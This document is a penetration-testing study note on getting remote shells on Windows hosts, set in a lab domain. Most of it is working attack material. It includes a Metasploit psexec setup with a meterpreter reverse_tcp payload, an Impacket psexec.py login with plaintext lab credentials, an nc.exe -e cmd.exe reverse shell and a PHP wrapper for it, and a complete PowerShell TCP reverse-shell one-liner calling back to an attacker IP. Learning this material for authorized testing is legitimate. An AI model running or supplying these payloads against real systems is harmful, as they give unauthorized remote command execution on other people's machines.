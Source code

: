# Shell Access

Payloads Deliver us Shells

Within the IT industry as a whole, Payload can be defined in a few different ways:

- Networking: The encapsulated data portion of a packet traversing modern computer networks.
- Basic Computing: A payload is the portion of an instruction set that defines the action to be taken. Headers and protocol information removed.
- Programming: The data portion referenced or carried by the programming language instruction.
- Exploitation & Security: A payload is code crafted with the intent to exploit a vulnerability on a computer system. The term payload can describe various types of malware, including but not limited to ransomware.

In this module, we will be working with many different types of payloads and delivery methods within the context of granting ourselves access to a host and establishing remote shell sessions with vulnerable systems.

## Shell validation

- `ps`
- `env`

## SMB - PSExec

### With Metasploit

```msfconsole```
- we can seach psexec or type:
```use exploit/windows/smb/psexec```
```show options```
- We need to set rhosts, lhost, smbdomain, smbpass and smbuser
- We also need to set the payload depending on our target for instance `windows/x64/meterpreter/reverse_tcp`
- We should get a shell

```bash
[*] Started reverse TCP handler on 10.0.2.8:4444 
[*] 10.0.2.4:445 - Connecting to the server...
[*] 10.0.2.4:445 - Authenticating to 10.0.2.4:445|marvel.local as user 'fcastle'...
[*] 10.0.2.4:445 - Selecting PowerShell target
[*] 10.0.2.4:445 - Executing the payload...
[+] 10.0.2.4:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200262 bytes) to 10.0.2.4
[*] Meterpreter session 1 opened (10.0.2.8:4444 -> 10.0.2.4:51468 ) at 2022-02-04 10:28:51 -0500

meterpreter > 
```

### With Impacket - psexec.py

Can be useful if meterprer is picked up by AV.

```bash
┌──(kali㉿kali)-[~]
└─$ psexec.py marvel.local/fcastle:Password1@10.0.2.4                                                                                                                                                                                    1 ⨯
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.0.2.4.....
[*] Found writable share ADMIN$
[*] Uploading file OKJXcwkr.exe
[*] Opening SVCManager on 10.0.2.4.....
[*] Creating service tDbW on 10.0.2.4.....
[*] Starting service tDbW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

- We can also try with: wmbexec.py or wmiexec.py (same command except for name of the script of course)

### Get a shell with nc.exe

- If we have access to a win and need to get a reverse shell for some reason (like privesc or else) we can use nc.exe
- You can get it here if you are on kali `/usr/share/windows-resources/binaries/nc.exe`
- Once on the target you can launch it with `nc.exe -e cmd.exe IP-KALI PORT`
- You could even put this line in a php file if say you had access to an ftp or smb that are used to transfer files to serve 

```php
<?php
system('nc.exe -e cmd.exe IP-KALI PORT')
?>
```

## Powershell

- Connect to our attack machine from a powershell prompt
  - We set a listener `rlwrap nc -lvp 443`
  - `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
